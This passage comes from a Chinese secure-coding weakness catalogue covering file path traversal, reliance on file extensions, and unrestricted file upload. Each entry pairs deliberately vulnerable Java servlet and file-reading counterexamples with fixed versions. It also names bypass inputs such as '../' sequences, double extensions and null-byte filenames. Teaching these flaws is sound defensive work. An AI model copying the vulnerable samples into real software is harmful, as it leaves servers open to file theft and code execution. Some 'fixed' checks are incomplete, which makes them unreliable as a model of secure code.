    String baseCanonicalPath = baseDir.getCanonicalPath();
    
    if (!canonicalPath.startsWith(baseCanonicalPath + File.separator)) {
        throw new IllegalArgumentException("Invalid file path");
    }
    
    if (candidateFile.delete()) {
        // ...文件删除成功
    } else {
        // ...文件删除失败，处理错误
    }
} catch (IOException e) {
    // ...处理异常
}
```

**修复建议**
- 使用固定基目录：确保所有文件操作都在一个预先定义的安全目录内进行，避免动态拼接路径。如上述代码中的目录`baseDir`。
- 路径规范化和验证：使用`getCanonicalPath()`方法规范化路径，并检查其是否在允许的范围内。
- 输入验证：进一步验证文件名，确保不包含非法字符，如`../`或`/`，以防止潜在的注入攻击。

**案例2: 设置基线目录预防文件名或路径被外部控制**
**语言: **JAVA

**描述**
使用配置文件中的输入来确定要打开的文件并回显给用户。当程序获得特权运行时，若攻击者能够篡改配置文件，则攻击者可以使用该程序读取系统上以扩展名`.txt`结尾的任何文件。

**反例**
```java
public class UNSafeFileReader {
    public static void main(String[] args) {
        Properties cfg = new Properties();
        try {
            String sub = cfg.getProperty("sub");
            FileInputStream  fis = new FileInputStream(sub + ".txt");
            byte[] arr = new byte[1024];
            int amt = fis.read(arr);
            Logger.info(arr);
        } catch (IOException e) {
            // ...处理异常
        }
    }
}
```

**正例**
```java
public class SafeFileReader {
    public static void main(String[] args) {
        Properties cfg = new Properties();
        try {
            // 设置基线目录
            String baseDir = "/path/to/safe/directory";
            File file = new File(baseDir, cfg.getProperty("sub") + ".txt");
            String canonicalPath = file.getCanonicalPath();
            // 检查文件名是否在指定的目录下
            if (!canonicalPath.startsWith(baseDir)) {
                throw new SecurityException("非法文件路径");
            }
            FileInputStream fis = new FileInputStream(file);
            byte[] arr = new byte[1024];
            int amt = fis.read(arr);
            Logger.info(arr);
        } catch (IOException e) {
            // ...处理异常
        }
    }
}
```

**修复建议**
- 使用白名单机制：只允许特定的文件名被访问，无论用户输入什么，文件只能在`baseDir`目录下访问，防止了路径遍历。
- 路径检查：确保文件在指定的目录下。
- 避免直接拼接用户输入：在拼接文件名之前，对用户输入进行严格的验证和清理。

**案例3: 设置文件名白名单列表预防文件名或路径被外部控制**
**语言: **JAVA

**描述**
使用配置文件中的输入来确定要打开的文件并回显给用户。当程序获得特权运行时，若攻击者能够篡改配置文件，则攻击者可以使用该程序读取系统上以扩展名`.txt`结尾的任何文件。

**反例**
```java
public class UNSafeFileReader {
    public static void main(String[] args) {
        Properties cfg = new Properties();
        try {
            String sub = cfg.getProperty("sub");
            FileInputStream  fis = new FileInputStream(sub + ".txt");
            byte[] arr = new byte[1024];
            int amt = fis.read(arr);
            Logger.info(arr);
        } catch (IOException e) {
            // ...处理异常
        }
    }
}
```

**正例**
```java
public class SafeFileReader {
    public static void main(String[] args) {
        Properties cfg = new Properties();
        try {
            // 假设cfg已经正确加载
            String sub = cfg.getProperty("sub");
            // 定义允许的文件名列表
            String[] allowedFiles = {"file1", "file2", "file3"};
            // 检查文件名是否在允许的列表中
            if (Arrays.asList(allowedFiles).contains(sub)) {
                FileInputStream fis = new FileInputStream(sub + ".txt");
                byte[] arr = new byte[1024];
                int amt = fis.read(arr);
                Logger.info(new String(arr, 0, amt));
            } else {
                throw new IllegalArgumentException("无效的文件名");
            }
        } catch (IOException e) {
            // ...处理异常
        }
    }
}
```

**修复建议**
- 使用白名单机制：只允许特定的文件名被访问，拒绝所有不在白名单中的文件名。
- 路径检查：确保文件路径在指定的安全目录内，防止路径遍历攻击。
- 避免直接拼接用户输入：在拼接文件名之前，对用户输入进行严格的验证和清理。

#### CWD-1044-000 文件名或路径外部可控

#### CWD-1044-001 【JDK】通过java.util.zip.ZipFile进行zip解压时，java.util.zip.ZipEntry#getName()方法获取的文件名可被控制，未进行标准化和校验直接用于构造解压路径，造成路径穿越问题

#### CWD-1044-002 【JDK】通过java.util.zip.ZipInputStream进行zip解压时，java.util.zip.ZipEntry#getName()方法获取的文件名可被控制，未进行标准化和校验直接用于构造解压路径，造成路径穿越问题

#### CWD-1044-003 【Apache】通过org.apache.commons.compress.archivers.zip.ZipArchiveInputStream进行zip解压时，org.apache.commons.compress.archivers.zip.ZipArchiveEntry#getName()方法获取的文件名可被控制，未进行标准化和校验直接用于构造解压路径，造成路径穿越问题

#### CWD-1044-004 【Apache】通过org.apache.commons.compress.archivers.zip.ZipFile进行zip解压时，org.apache.commons.compress.archivers.zip.ZipArchiveEntry#getName()方法获取的文件名可被控制，未进行标准化和校验直接用于构造解压路径，造成路径穿越问题

#### CWD-1044-005 【Apache】通过org.apache.commons.compress.archivers.sevenz.SevenZFile进行7z解压时，org.apache.commons.compress.archivers.sevenz.SevenZArchiveEntry#getName()方法获取的文件名可被控制，未进行标准化和校验直接用于构造解压路径，造成路径穿越问题

#### CWD-1044-006 【Apache】通过org.apache.commons.compress.archivers.jar.JarArchiveInputStream进行jar解压时，org.apache.commons.compress.archivers.jar.JarArchiveEntry#getName()方法获取的文件名可被控制，未进行标准化和校验直接用于构造解压路径，造成路径穿越问题

#### CWD-1044-007 【Apache】通过org.apache.commons.compress.archivers.tar.TarArchiveInputStream进行tar解压时，org.apache.commons.compress.archivers.tar.TarArchiveEntry#getName()方法获取的文件名可被控制，未进行标准化和校验直接用于构造解压路径，造成路径穿越问题

#### CWD-1044-008 URL在规范化之前就进行了验证

#### CWD-1044-009 使用java.net.URI类中的normalize方法对外部输入的URL做URL归一化，此方法为不安全的URL归一化方法

#### CWD-1044-010 使用java.text.Normalizer类的normalize方法对url归一化处理

#### CWD-1044-011 使用commons-fileupload组件进行文件上传时，通过FileItem的getName函数获取的文件名直接作为/拼接构造上传路径，未按标准的流程进行路径校验

#### CWD-1044-012 使用MultipartFile的getFileItem().getName()方法获取的文件名直接作为/拼接构造上传路径，未按标准的流程进行路径校验

#### CWD-1044-013 通过javax.servlet.http.Part的getSubmittedFileName函数获取的文件名直接作为/拼接构造上传路径，未按标准的流程进行路径校验

#### CWD-1044-014 未校验用户输入的文件名合法性，攻击者可覆盖系统关键文件

#### CWD-1044-015 使用未经验证的参数加载动态库

**业界缺陷**

- [CWE-73: External Control of File Name or Path](https://cwe.mitre.org/data/definitions/73.html)
---

# CWD-1045 依赖外部提供文件的文件名或扩展名

**别名: **基于用户提供的文件名或扩展名执行操作

**描述**
产品允许上传文件，但其依赖根据用户上传文件的名称或扩展名来判定后续操作。


- 文件扩展名、文件头数据中的类型字段没有限制，例如服务器仅根据后缀名判断文件类型但实际是个木马文件。- 攻击者可利用此特性通过伪造文件标识，导致文件被错误分类并以危险方式执行。例如：选择正确的处理流程、决定应提供哪些数据或分配哪些资源。- 若攻击者能诱导系统错误分类上传的文件，就会触发非预期的操作。攻击者可提交一个看似GIF图片但实际以 `.php.gif` 结尾的文件，最终该文件会被当作PHP代码执行。极端情况下可能导致代码执行，引发资源耗尽、拒绝服务、调试信息或系统数据泄露（包括应用程序源代码），或使服务器被绑定到特定处理进程中。- 攻击者可以通过构造特定的文件名或扩展名来绕过应用程序的安全检查机制，导致应用程序执行恶意代码或读取敏感文件。例如，一个Web应用程序可能允许用户上传文件，并将其保存在服务器上。如果应用程序没有正确验证上传文件的文件名或扩展名，攻击者可以上传一个恶意文件，例如 `malware.php.jpg` ，并在服务器上执行PHP代码。- 该缺陷可能源于Web服务器或应用服务器所采用技术的漏洞、配置错误，或是应用程序本身其他缺陷所导致的结果。- 这种漏洞通常出现在需要使用外部文件的程序中，依赖于文件的文件名或扩展名来确定适当的行为。例如Web应用程序或桌面应用程序。
**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：在服务器端根据文件内容而不是文件名或扩展名做出决策。

**编码**
- 策略1：输入验证 `推荐`
  有效性：高
  - 校验前，先对输入内容进行规范化处理。例如，使用内置的路径规范化函数（如C语言中的`realpath()`函数；JAVA语言中的`getCanonicalPath()`函数），该函数生成路径名的规范化版本，该函数有效地删除了`..`序列和符号链接。
  1. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
  4. 在验证文件名时，请使用严格的允许列表（`白名单`）来限制要使用的字符集。如果可行，在文件名中仅允许单个`.`字符以避免【CWD-1060 相对路径遍历】等弱点，并排除目录分隔符（如`/`）以避免【CWD-1061 绝对路径遍历】。使用允许的文件扩展名列表，这将有助于避免使用CWD-1046。
  5. 不要完全依赖于删除潜在危险字符的过滤机制。这相当于一个拒绝列表（`黑名单`），它可能是不完整的。
  - 例如，如果文件系统还支持使用 `\` 作为目录分隔符，则仅过滤 `/` 是不够的。
  - 另一个可能会发生的错误是应用过滤时仍然产生危险数据。例如，如果 `../` 序列从 `.../...//`字符序列中删除。`../` 的两个实例将从原始字符串中删除，但剩余的字符仍将构成 `../` 字符串。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 基于用户提供的文件名或扩展名执行操作**
**语言: **JAVA

**描述**
依赖根据用户上传文件的名称或扩展名来判定后续操作。

**案例分析**
1. 空字节注入：虽然Java本身对空字节处理较好，但在某些情况下，攻击者可能尝试使用空字节绕过扩展名检查（如`malicious.jpg%00.txt`）。
2. 不安全的文件操作：直接使用用户提供的文件名进行文件操作，没有验证文件名是否合法。
3. 扩展名欺骗：仅检查扩展名不足以确定文件类型，攻击者可能重命名可执行文件为`.txt`扩展名。

**反例**
```java
import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;

public class FileOperation {
    public static void processFile(String userInput) {
        try {
            // 直接使用用户输入构造文件路径
            File file = new File("/uploads/" + userInput);
            
            // 检查文件是否存在
            if (file.exists()) {
                // 根据扩展名执行不同操作
                if (userInput.endsWith(".txt")) {
                    // 读取文本文件
                    BufferedReader reader = new BufferedReader(new FileReader(file));
                    String line;
                    while ((line = reader.readLine()) != null) {
                        Logger.info(line);
                    }
                    reader.close();
                } else if (userInput.endsWith(".tmp")) {
                    // 删除临时文件
                    file.delete();
                    Logger.info("临时文件已删除: " + userInput);
                } else {
                    Logger.info("不支持的文件类型: " + userInput);
                }
            } else {
                Logger.info("文件不存在: " + userInput);
            }
        } catch (Exception e) {
            // ... 处理异常
        }
    }

    public static void main(String[] args) {
        // 从命令行参数获取用户输入
        if (args.length > 0) {
            processFile(args[0]);
        } else {
            Logger.info("请提供文件名作为参数");
        }
    }
}
```

**正例**
```java
import java.io.BufferedReader;
import java.io.File;
import java.io.FileNotFoundException;
import java.io.FileReader;
import java.io.IOException;

public class SecureFileOperation {
    private static final String UPLOAD_DIR = "/uploads/";

    private static final int MAX_FILENAME_LENGTH = 255;

    public static void processFile(String userInput) throws IOException {
        // 验证输入不为空
        if (userInput == null || userInput.isEmpty()) {
            throw new IllegalArgumentException("文件名不能为空");
        }

        // 规范化路径并验证
        String basePath = new File(UPLOAD_DIR).getCanonicalPath();
        File userInputCanonicalFile = new File(userInput).getCanonicalFile();
        String resolvedPath = new File(UPLOAD_DIR, userInput).getCanonicalPath();

        // 检查路径是否仍在安全目录内
        if (!resolvedPath.startsWith(basePath)) {
            throw new SecurityException("非法路径访问尝试: " + userInput);
        }

        // 验证文件名长度和字符

        String filename = userInputCanonicalFile.getName();
        if (filename.length() > MAX_FILENAME_LENGTH) {
            throw new IllegalArgumentException("文件名过长");
        }
        if (!filename.matches("[a-zA-Z0-9._-]+")) {
            throw new IllegalArgumentException("文件名包含非法字符");
        }

        // 检查文件是否存在且是常规文件
        if (!userInputCanonicalFile.exists() || !userInputCanonicalFile.isFile()) {
            throw new FileNotFoundException("文件不存在或不是常规文件: " + filename);
        }

        // 根据扩展名执行操作
        String extension = getFileExtension(filename);
        try {
            switch (extension) {
                case "txt":
                    // 使用try-with-resources确保资源释放
                    try (BufferedReader reader = new BufferedReader(new FileReader(userInputCanonicalFile))) {
                        String line;
                        while ((line = reader.readLine()) != null) {
                            Logger.info(line);
                        }
                    }
                    break;
                case "tmp":
                    if (userInputCanonicalFile.delete()) {
                        Logger.info("临时文件已删除: " + filename);
                    } else {
                        throw new IOException("无法删除文件: " + filename);
                    }
                    break;
                default:
                    throw new UnsupportedOperationException("不支持的文件类型: " + extension);
            }
        } catch (IOException e) {
            throw new IOException("处理文件时出错: " + filename, e);
        }
    }

    private static String getFileExtension(String filename) {
        int dotIndex = filename.lastIndexOf('.');
        if (dotIndex > 0 && dotIndex < filename.length() - 1) {
            return filename.substring(dotIndex + 1).toLowerCase();
        }
        return "";
    }

    public static void main(String[] args) {
        if (args.length > 0) {
            try {
                processFile(args[0]);
            } catch (Exception e) {
                // ... 处理异常
            }
        } else {
            Logger.info("请提供文件名作为参数");
        }
    }
}
```

**修复建议**
- 路径规范化与验证：使用`getCanonicalPath()`规范化路径；确保解析后的路径仍在安全目录内。
- 输入验证：检查输入不为空；限制文件名长度；使用正则表达式验证文件名只包含允许的字符。
- 安全的文件操作：检查文件是常规文件而非目录或特殊文件。
- 改进的扩展名处理：单独提取扩展名的方法，转换为小写进行比较。
- 错误处理：提供有意义的错误消息；区分不同类型的错误。

#### CWD-1045-000 依赖外部提供文件的文件名或扩展名

#### CWD-1045-001 伪造扩展名执行恶意代码

#### CWD-1045-002 压缩包内恶意文件类型绕过

#### CWD-1045-003 文件类型后缀校验绕过

**业界缺陷**

- [CWE-646: Reliance on File Name or Extension of Externally-Supplied File](https://cwe.mitre.org/data/definitions/646.html)
---

# CWD-1046 无限制上传具有危险类型的文件

**别名: **无限制文件上传

**描述**
产品未限制危险文件类型的上传或传输，并会在其运行环境中自动处理此类文件。如果上传的文件被接收方解释为代码并执行，则可能执行任意代码。对于`.asp`和`.php`等Web服务器扩展名尤其如此，因为这些文件类型通常被视为自动执行，即使在文件系统权限不指定执行的情况下也是如此。例如，在Unix环境中，除非设置执行位，否则程序通常无法运行，但PHP程序可以由Web服务器执行，而无需在操作系统上直接调用。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：为上传的文件生成一个新的、唯一的文件名，而不是使用用户提供的文件名，这样就根本不使用外部输入。
- 策略2：通过转换执行
  当可接受对象的集合（如文件名或URL）有限或已知时，创建从一组固定输入值（如数字ID）到实际文件名或URL的映射，并拒绝所有其他输入。
- 策略3：考虑将上传的文件完全存储在Web文档根目录之外。然后使用其他机制动态下发文件。
- 策略4：定义一组非常有限的允许扩展名，并且只生成以这些扩展名结尾的文件名。考虑XSS的可能性，然后才允许`.html`或`.htm`文件类型。
- 策略5：对于在客户端执行的任何安全性检查，请确保这些检查在服务器端重复。攻击者可以通过在执行检查后修改值来绕过客户端检查，或者通过更改客户端以完全删除客户端检查。然后，这些修改后的值将被提交到服务器。
- 策略6：环境加固
  使用完成必要任务所需的最低权限运行代码。创建仅用于单个任务的具有有限权限的隔离帐户。这样，成功的攻击不会立即让攻击者访问软件的其余部分或其环境。例如，数据库应用程序很少需要以数据库管理员的身份运行，特别是在日常操作中。
- 策略7：沙箱
  有效性：有限
  在类似的沙箱环境中运行代码，在进程和操作系统之间强制实施严格的边界。这可以有效地限制特定目录中可以访问哪些文件，或者软件可以执行哪些命令。操作系统级的包括`Unix chroot`、`AppArmor`和`SELinux`。一般来说，托管代码可以提供一些保护。例如`Java SecurityManager`中的`java.io.FilePermission`允许软件指定对文件操作的限制。

**编码**
- 策略1：输入验证 `推荐`
  有效性：高
  1. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。例如，将文件名限制为字母数字字符有助于限制引入非预期的文件扩展名。
  4. 确保文件名中只使用一个扩展名。一些Web服务器，包括某些版本的Apache，可能会基于内部扩展名来处理文件，从而将 `filename.php.gif` 提供给PHP解释器。
- 策略2：在支持不区分大小写文件名的Web服务器上运行时，请对提供的扩展名执行不区分大小写的评估。
- 策略3：不要完全依赖于文件内容的健全性检查，以确保文件具有预期的类型和大小。攻击者可能会在某些文件段中隐藏代码，这些文件段仍将由服务器执行。例如，GIF图像可能包含自由格式的注释字段。
- 策略4：在确定如何呈现文件时，不要完全依赖于MIME内容类型或文件名属性。验证MIME内容类型并确保它与扩展名匹配只是部分解决方案。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 不受限制地上传文件**
**语言: **JAVA

**描述**
利用Java servlet和路径遍历漏洞不受限制地上传文件。HTML表单的action属性是向Java servlet发送上传文件请求。当提交时，Java Servlet的doPost方法会接收到请求，从Http请求头中提取文件的名称，从请求中读取文件内容并输出到本地上传目录。

**案例分析**
此代码未对上传的文件类型进行检查，攻击者可借此上传任意可执行文件或包含恶意代码的其他文件。此外，`BufferedWriter` 对象的创建存在相对路径遍历风险。由于代码未校验请求头中提供的文件名，攻击者可通过 `../` 路径序列将文件写入预期目录之外的位置。根据运行环境的不同，攻击者可能通过指定任意文件写入路径，导致多种严重后果，包括代码执行、跨站脚本攻击（XSS）或系统崩溃。

**反例**
```java
import jakarta.servlet.ServletException;
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.FileWriter;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;

public class FileUploadServlet extends HttpServlet {
    // ...

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/html");
        PrintWriter out = response.getWriter();
        String contentType = request.getContentType();

        // 边界的起始位置
        int ind = contentType.indexOf("boundary=");
        String boundary = contentType.substring(ind+9);

        String pLine = "";
        String uploadLocation = new String(UPLOAD_DIRECTORY_STRING); //Constant value

        // 验证内容类型是否为多部分表单数据
        if (contentType != null && contentType.indexOf("multipart/form-data") != -1) {
            // 从Http头中提取文件名
            BufferedReader br = new BufferedReader(new InputStreamReader(request.getInputStream()));
            // ...
            pLine = br.readLine();
            String filename = pLine.substring(pLine.lastIndexOf("\\"), pLine.lastIndexOf("\""));
            // ...

            // 输出文件到本地上传目录
            try {
                BufferedWriter bw = new BufferedWriter(new FileWriter(uploadLocation+filename, true));
                for (String line; (line=br.readLine())!=null; ) {
                    if (line.indexOf(boundary) == -1) {
                        bw.write(line);
                        bw.newLine();
                        bw.flush();
                    }
                }
                bw.close();
            } catch (IOException ex) {
                // ...处理异常
            }
        // 输出上传成功响应HTML页面
        }
        // 输出上传失败响应HTML页面
        else {
            // ...
        }
    }
    // ...
}
```

**正例**
```java
import jakarta.servlet.ServletException;
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.nio.file.Paths;
import java.util.UUID;
import java.util.regex.Pattern;

public class FileUploadServlet extends HttpServlet {
    private static final String UPLOAD_DIRECTORY_STRING = "/safe/upload/directory/"; // 配置安全的上传目录
    private static final Pattern FILENAME_PATTERN = Pattern.compile("^[a-zA-Z0-9_\\-.]{1,255}$"); // 文件名白名单正则

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/html");
        
        // 确保上传目录存在且可写
        File uploadDir = new File(UPLOAD_DIRECTORY_STRING);
        if (!uploadDir.exists()) {
            uploadDir.mkdirs();
        }
        if (!uploadDir.canWrite()) {
            sendErrorResponse(response, "Upload directory is not writable");
            return;
        }

        String contentType = request.getContentType();
        if (contentType == null || !contentType.startsWith("multipart/form-data")) {
            sendErrorResponse(response, "Invalid content type");
            return;
        }

        // 边界的起始位置
        int ind = contentType.indexOf("boundary=");
        if (ind == -1) {
            sendErrorResponse(response, "Missing boundary in content type");
            return;
        }
        String boundary = "--" + contentType.substring(ind + 9); // 注意边界前需要加--

        try (BufferedReader br = new BufferedReader(new InputStreamReader(request.getInputStream()));
             PrintWriter out = response.getWriter()) {
            
            // 读取头部信息
            String pLine;
            while ((pLine = br.readLine()) != null && !pLine.startsWith("Content-Disposition: form-data;")) {
                // 跳过头部其他信息
            }
            
            if (pLine == null) {
                sendErrorResponse(response, "Invalid multipart format");
                return;
            }

            // 提取文件名
            String filename = extractFilename(pLine);
            if (filename == null || !isValidFilename(filename)) {
                sendErrorResponse(response, "Invalid filename");
                return;
            }

            // 生成安全的唯一文件名
            String safeFilename = generateSafeFilename(filename);
            File outputFile = new File(uploadDir, safeFilename);
            
            // 防止目录遍历
            if (!outputFile.getCanonicalPath().startsWith(uploadDir.getCanonicalPath() + File.separator)) {
                sendErrorResponse(response, "Invalid file path");
                return;
            }

            // 跳过头部和空行
            while ((pLine = br.readLine()) != null && !pLine.isEmpty()) {
                // 跳过其他头部信息
            }

            // 写入文件内容
            try (BufferedWriter bw = new BufferedWriter(new FileWriter(outputFile))) {
                String line;
                while ((line = br.readLine()) != null) {
                    if (line.startsWith(boundary)) {
                        break; // 遇到边界结束
                    }
                    bw.write(line);
                    bw.newLine();
                }
            }

            // 返回成功响应
            out.println("<html><body>");
            out.println("<h2>File uploaded successfully</h2>");
            out.println("<p>Filename: " + escapeHtml(filename) + "</p>");
            out.println("</body></html>");
        } catch (Exception ex) {
            sendErrorResponse(response, "Error processing file upload: " + ex.getMessage());
        }
    }

    private String extractFilename(String contentDisposition) {
        int filenameIndex = contentDisposition.indexOf("filename=\"");
        if (filenameIndex == -1) return null;
        int start = filenameIndex + 10;
        int end = contentDisposition.indexOf("\"", start);
        if (end == -1) return null;
        
        String filename = contentDisposition.substring(start, end);
        // 只保留文件名部分，去除路径
        return Paths.get(filename).getFileName().toString();
    }

    private boolean isValidFilename(String filename) {
        return FILENAME_PATTERN.matcher(filename).matches();
    }

    private String generateSafeFilename(String originalFilename) {
        String extension = "";
        int dotIndex = originalFilename.lastIndexOf('.');
        if (dotIndex > 0) {
            extension = originalFilename.substring(dotIndex);
        }
        return UUID.randomUUID().toString() + extension;
    }

    private String escapeHtml(String input) {
        return input.replace("&", "&amp;")
                   .replace("<", "&lt;")
                   .replace(">", "&gt;")
                   .replace("\"", "&quot;")
                   .replace("'", "&#39;");
    }

    private void sendErrorResponse(HttpServletResponse response, String message) throws IOException {
        response.setStatus(HttpServletResponse.SC_BAD_REQUEST);
        response.getWriter().println("<html><body><h2>Error: " + escapeHtml(message) + "</h2></body></html>");
    }
}
```

**修复建议**
- 文件名验证：使用正则表达式白名单验证文件名；从`Content-Disposition`头中安全提取文件名；使用`Paths.get().getFileName()`去除路径信息防止目录遍历。
- 安全文件存储：生成随机的UUID作为文件名前缀，防止文件名冲突和覆盖；使用`getCanonicalPath()`检查确保文件保存在指定目录内；明确设置上传目录并检查可写权限。
- 资源管理：添加适当的错误处理和响应。
- 安全输出：对输出到HTML响应的内容进行HTML编码，防止XSS；为不同错误情况提供适当的HTTP状态码。
- 边界处理改进：更严格地检查multipart格式；正确处理边界字符串。

**案例2: 无限制上传具有危险类型的文件**
**语言: **JAVA

**描述**
一个存在安全漏洞的文件上传功能实现，该功能允许用户上传任意类型的文件到服务器，包括可执行文件、脚本文件等危险类型。这种无限制的文件上传功能可能导致攻击者上传恶意文件并执行，从而危害服务器安全。

**案例分析**
1. 无文件大小限制：可能导致拒绝服务攻击（DoS），攻击者可以上传超大文件耗尽服务器磁盘空间。
2. 无文件类型检查：代码没有对上传文件的类型进行任何验证，允许上传任意类型的文件，包括`.jsp`、`.jspx`、`.exe`、`.sh`等可执行文件。

**反例**
```java
import java.io.File;
import java.io.IOException;
import java.io.InputStream;
import java.nio.file.Files;
import java.nio.file.StandardCopyOption;
import javax.servlet.ServletException;
import javax.servlet.annotation.MultipartConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.Part;

@WebServlet("/upload")
@MultipartConfig
public class UnsafeFileUploadServlet extends HttpServlet {
    
    private static final String UPLOAD_DIR = "uploads";

    protected void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
        
        // 获取上传的文件
        Part filePart = request.getPart("file");
        String fileName = filePart.getSubmittedFileName();
        
        // 创建上传目录（如果不存在）
        File uploadDir = new File(UPLOAD_DIR);
        if (!uploadDir.exists()) {
            uploadDir.mkdir();
        }
        
        // 保存文件到服务器
        try (InputStream fileContent = filePart.getInputStream()) {
            File file = new File(uploadDir, fileName);
            Files.copy(fileContent, file.toPath(), StandardCopyOption.REPLACE_EXISTING);
        }
        
        response.getWriter().println("文件上传成功: " + fileName);
    }
}
```

**正例**
```java
import java.io.File;
import java.io.IOException;
import java.io.InputStream;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.StandardCopyOption;
import java.util.Arrays;
import java.util.HashSet;
import java.util.Set;
import java.util.UUID;
import javax.servlet.ServletException;
import javax.servlet.annotation.MultipartConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.Part;

@WebServlet("/upload")
@MultipartConfig(
    fileSizeThreshold = 1024 * 1024,  // 1MB
    maxFileSize = 1024 * 1024 * 5,    // 5MB
    maxRequestSize = 1024 * 1024 * 10 // 10MB
)
public class SafeFileUploadServlet extends HttpServlet {
    
    private static final String UPLOAD_DIR = "secure_uploads";
    private static final Set<String> ALLOWED_EXTENSIONS = new HashSet<>(
        Arrays.asList("jpg", "jpeg", "png", "gif", "pdf", "doc", "docx", "txt")
    );
    private static final long MAX_FILE_SIZE = 5 * 1024 * 1024; // 5MB

    protected void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
        
        Part filePart = request.getPart("file");
        String fileName = filePart.getSubmittedFileName();
        long fileSize = filePart.getSize();
        
        // 验证文件大小
        if (fileSize > MAX_FILE_SIZE) {
            response.sendError(HttpServletResponse.SC_BAD_REQUEST, "文件大小超过限制(5MB)");
            return;
        }
        
        // 验证文件扩展名
        String fileExtension = getFileExtension(fileName);
        if (fileExtension == null || !ALLOWED_EXTENSIONS.contains(fileExtension.toLowerCase())) {
            response.sendError(HttpServletResponse.SC_BAD_REQUEST, "不允许的文件类型");
            return;
        }
        
        // 创建安全的文件名
        String safeFileName = generateSafeFileName(fileExtension);
        
        // 创建上传目录（如果不存在）
        File uploadDir = new File(getServletContext().getRealPath("") + File.separator + UPLOAD_DIR);
        if (!uploadDir.exists()) {
